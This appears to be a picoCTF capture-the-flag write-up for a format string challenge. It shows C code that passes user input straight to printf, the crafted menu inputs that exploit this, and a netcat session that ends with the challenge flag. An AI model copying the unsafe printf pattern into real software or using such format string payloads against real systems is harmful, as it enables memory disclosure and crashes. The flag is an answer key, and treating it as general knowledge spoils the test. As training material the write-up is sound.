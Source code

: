 ```c
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    // ... interface code ...
    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);  // VULNERABLE: user input as format string
        fflush(stdout);
    }
}
```

This unsafe pattern allows attackers to use format specifiers like `%s`, `%d`, `%x`, and `%n` to manipulate memory access. The solution requires selecting menu items containing these format specifiers.

For the first customer Patrick, choosing "Gr%114d_Cheese" utilizes the `%114d` format specifier that prints an integer right-aligned in 114 characters. For the second customer Bob, selecting "Cla%sic_Che%s%steak" employs `%s` specifiers that attempt to read string pointers from the stack.

When these specially crafted inputs process through the vulnerable `printf()` calls, they trigger memory access violations that eventually reveal the flag through the program's error handling mechanism.

The successful exploitation sequence:
```
➜  ~ nc mimas.picoctf.net 61644

Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

